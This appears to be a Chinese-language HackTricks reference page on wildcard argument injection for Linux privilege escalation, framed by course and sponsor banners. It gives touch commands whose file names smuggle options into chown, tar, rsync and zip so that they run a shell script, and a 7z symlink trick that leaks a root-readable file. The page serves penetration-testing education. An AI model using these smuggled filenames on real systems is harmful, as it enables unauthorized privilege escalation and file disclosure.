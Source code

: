 {% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}


## chown, chmod

您可以**指示要为其余文件复制的文件所有者和权限**
```bash
touch "--reference=/my/own/path/filename"
```
您可以利用这个使用 [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(组合攻击)_\
更多信息请参见 [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Tar

**执行任意命令：**
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
您可以利用这个使用 [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(tar 攻击)_\
更多信息请参见 [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Rsync

**执行任意命令：**
```bash
Interesting rsync option from manual:

-e, --rsh=COMMAND           specify the remote shell to use
--rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```bash
touch "-e sh shell.sh"
```
您可以利用这个 [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(_rsync _攻击)_\
更多信息请参见 [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## 7z

在 **7z** 中，即使在 `*` 之前使用 `--`（注意 `--` 意味着后续输入不能被视为参数，因此在这种情况下仅为文件路径），您也可以导致任意错误以读取文件，因此如果以下命令由 root 执行：
```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```
而且您可以在执行此操作的文件夹中创建文件，您可以创建文件 `@root.txt` 和文件 `root.txt`，后者是您想要读取的文件的 **symlink**：
```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```
然后，当 **7z** 执行时，它会将 `root.txt` 视为一个包含应压缩文件列表的文件（这就是 `@root.txt` 存在的意义），当 7z 读取 `root.txt` 时，它会读取 `/file/you/want/to/read`，**由于该文件的内容不是文件列表，它将抛出一个错误** 显示内容。

_更多信息请参见 HackTheBox 的 CTF 盒子写作。_

## Zip

**执行任意命令：**
```bash
zip name.zip files -T --unzip-command "sh -c whoami"
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
